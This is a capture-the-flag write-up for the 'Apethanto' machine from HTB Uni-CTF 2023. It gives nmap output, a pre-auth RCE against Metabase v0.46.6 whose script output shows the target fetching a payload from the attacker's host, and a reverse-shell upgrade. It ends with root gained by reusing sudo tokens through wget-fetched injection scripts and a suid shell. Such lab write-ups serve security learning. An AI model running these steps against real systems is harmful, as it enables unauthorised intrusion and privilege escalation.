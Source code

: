 # Write-up for HTB Uni-CTF-2023

**Name of Challenge** - Apethanto  
**Category** - Fullpwn

```console
inte@debian-pc:~$ sudo nmap -p- --min-rate 4000 10.129.248.227
Nmap scan report for 10.129.248.227
Host is up (0.13s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
```

```console
inte@debian-pc:~$ sudo nmap -sC -sV -p 22,80,3000 -oN apethanto.nmap 10.129.248.227
Nmap scan report for 10.129.248.227
Host is up (0.12s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e21d5dc2e61eb8fa63b242ab71c05d3 (RSA)
|   256 3911423f0c250008d72f1b51e0439d85 (ECDSA)
|_  256 b06fa00a9edfb17a497886b23540ec95 (ED25519)
80/tcp   open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://apethanto.htb/
|_http-server-header: nginx/1.18.0
3000/tcp open  http    Jetty 11.0.14
|_http-title: Metabase
|_http-server-header: Jetty(11.0.14)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Based on `nmap` report, `/etc/hosts` has to be updated.

```text
10.129.248.88 apethanto.htb
```

<http://apethanto.htb/> is static.  
The URL <http://metabase.apethanto.htb/> is present on homepage; add it to `/etc/hosts`:

```text
10.129.248.88 apethanto.htb metabase.apethanto.htb
```

<http://metabase.apethanto.htb/> is running an instance of Metabase, same as <http://apethanto.htb:3000>  
Recent Metabase CVE vulnerability with pre-auth RCE: <https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/>  
From <http://metabase.apethanto.htb/api/session/properties> the version was found to be v0.46.6 (vulnerable).  
The `setup-token`: `819139a8-1ce9-46f0-acf8-9b4fc0d1164b` could also be found.

The vulnerability's public PoCs are ineffective. The instance has possibly been configured with slight variations from defaults.  
The Assetnote blog hints to other approaches which could work.  
I wrote another PoC based on existing ones and after several minutes of debugging, an alternate approach worked for RCE.

The key ideas:

- Using a `mem` DB instead of the zip URI as mentioned in <https://blog.calif.io/p/reproducing-cve-2023-38646-metabase>
- Using the diacritic character `ı` instead of `I` to bypass filter (<https://twitter.com/reginaldojsf/status/1684728514170191872>)
- Fixing the java errors as stated in JDBC responses

Final exploit script: [metabase_preauth_rce.py](metabase_preauth_rce.py)

```console
inte@debian-pc:~$ python3 metabase_preauth_rce.py
LHOST: 10.10.14.80
Version: {'date': '2023-06-29', 'tag': 'v0.46.6', 'branch': 'release-x.46.x', 'hash': '1bb88f5'}
Token: 819139a8-1ce9-46f0-acf8-9b4fc0d1164b
10.129.248.88 - - [10/Dec/2023 16:51:02] "GET /poc.sql HTTP/1.1" 200 -

10.129.248.88 - - [10/Dec/2023 16:51:04] "GET /payload HTTP/1.1" 200 -
```

After receiving the reverse shell, upgrade it:

```console
metabase@Apethanto:~$ python3 -c 'import pty;pty.spawn("/bin/bash");'
metabase@Apethanto:~$ ^Z
inte@debian-pc:~$ stty raw -echo; fg
metabase@Apethanto:~$ stty rows 24 cols 80
metabase@Apethanto:~$ export TERM=xterm-256color
metabase@Apethanto:~$ exec /bin/bash
```

```console
metabase@Apethanto:~$ id
uid=998(metabase) gid=998(metabase) groups=998(metabase),27(sudo)
```

Being a member of the `sudo` group grants the ability to execute any OS command as root. However, the user's password is not known.

[pspy](https://github.com/DominicBreuker/pspy) can be used to monitor cron jobs.

```text
2023/12/10 11:25:46 CMD: UID=0     PID=3677   | sudo -u metabase -i 
2023/12/10 11:25:46 CMD: UID=998   PID=3678   | -bash 
2023/12/10 11:25:46 CMD: UID=998   PID=3679   | -bash 
2023/12/10 11:25:46 CMD: UID=998   PID=3680   | 
2023/12/10 11:25:46 CMD: UID=0     PID=3681   | sudo apt update 
2023/12/10 11:25:46 CMD: UID=0     PID=3682   | apt update 
```

A root cron job is running `sudo apt update` as user `metabase`.  
This scenario matches the one mentioned in <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens>  
A shell as user with `sudo` privileges is available, password is unknown, and another session is running a command as the same user with `sudo`.

```console
metabase@Apethanto:~$ cat /proc/sys/kernel/yama/ptrace_scope
0
metabase@Apethanto:~$ which gdb
/usr/bin/gdb
```

Therefore, [sudo_inject](https://github.com/nongiach/sudo_inject) can be used:

```console
metabase@Apethanto:~$ wget 10.10.14.80:8000/activate_sudo_token
metabase@Apethanto:~$ wget 10.10.14.80:8000/exploit_v2.sh
metabase@Apethanto:~$ chmod +x exploit_v2.sh 
metabase@Apethanto:~$ sudo bash
[sudo] password for metabase: 
sudo: a password is required
metabase@Apethanto:~$ ./exploit_v2.sh 
Creating suid shell in /tmp/sh
Current process : 1228
Injecting process 798 -> bash
Injecting process 801 -> bash
Injecting process 803 -> bash
Injecting process 804 -> bash
Injecting process 809 -> bash
Injecting process 1207 -> bash
```

The suid `sh` created in `/tmp` can be used to get shell as root:

```console
metabase@Apethanto:~$ /tmp/sh -p
# id
uid=998(metabase) gid=998(metabase) euid=0(root) egid=0(root) groups=0(root),27(sudo),998(metabase)
```

